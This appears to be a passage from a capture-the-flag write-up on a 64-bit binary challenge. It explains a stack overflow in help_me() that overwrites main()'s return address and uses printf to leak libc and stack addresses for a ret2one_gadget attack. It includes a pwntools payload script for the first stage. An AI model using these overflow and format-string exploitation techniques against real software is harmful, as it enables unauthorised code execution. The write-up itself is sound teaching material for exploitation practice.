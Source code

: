 ### Exploitation

it's actually quite simple, we're going to do the classic ret2one\_gadget.

first notice that `main()` doesn't have any local variable, this means its stack frame consist only of RBP and return address of RIP.&#x20;

our `help_me()` reads out input up to 0x64 and it is quite big of an overflow, to which is big enough to overwrite into `main()`'s stack frame.

<figure><img src="../../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

so on the first round of overflow, we'll keep `help_me()`'s RIP unchanged, however we'll change `main()`'s RIP to calling `main()` again instead of exit. in the meantime, we'll abuse the printf to leak some stack and libc address.&#x20;

{% hint style="warning" %}
the reason we need stack leak is to preserve the RBP, this because upon calling `one_gadget` or `system`, they will have instructions that utilizes RBP offsets. so we wanna set it to  a relatively huge valid writeable address instead of 0x4141414141
{% endhint %}

```python
payload = flat({
    72: [
        0x040131f,          # read(0, song, 200)
        0x0,                
        elf.sym['main'], 
    ]
})
io.sendlineafter(b'be?!', payload)
io.sendlineafter(b'song?', b'%3$p|%11$p|')

io.recvuntil(b'0x')
libc.address = int(io.recvuntil(b'|', drop=True), 16) - 0x114887

io.recvuntil(b'0x')
stack = int(io.recvuntil(b'|', drop=True), 16)
```

